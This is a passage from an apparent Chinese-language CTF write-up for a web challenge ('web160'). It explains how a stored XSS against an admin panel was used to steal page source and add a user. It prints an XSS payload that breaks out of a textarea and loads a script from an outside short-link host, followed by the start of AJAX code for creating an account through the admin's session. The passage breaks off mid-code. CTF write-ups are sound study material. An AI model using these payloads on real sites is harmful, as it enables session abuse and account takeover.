 

**web160**

这题其实是一个xss的题目，因为页面描述说管理员会记录你的一切操作。先打了一发cookie，然后修改cookie。发现直接跳到首页，并没有什么卵用。后面用ajax偷到了页面的源码。通过分析源码发现，有一个添加用户的地方。首先xss的payload

```html

</textarea>'"><script src=http://t.cn/R2CvZvl></script>

```


![3409089775](http://ogmho3r7t.bkt.clouddn.com/2017-04-17-3409089775.png)

然后我们构造一个ajax添加一个账号。

```javascript

var request = false;



if(window.XMLHttpRequest) {



request = new XMLHttpRequest();



if(request.overrideMimeType) {



request.overrideMimeType('text/xml');



}



}



else if (window.ActiveXObject) {



var versions = ['Microsoft.XMLHTTP', 'MSXML.XMLHTTP', 'Microsoft.XMLHTTP', 'Msxml2.XMLHTTP.7.0','Msxml2.XMLHTTP.6.0','Msxml2.XMLHTTP.5.0', 'Msxml2.XMLHTTP.4.0', 'MSXML2.XMLHTTP.3.0', 'MSXML2.XMLHTTP'];



for(var i=0; i<versions.length; i++) {



try {



request = new ActiveXObject(versions);
```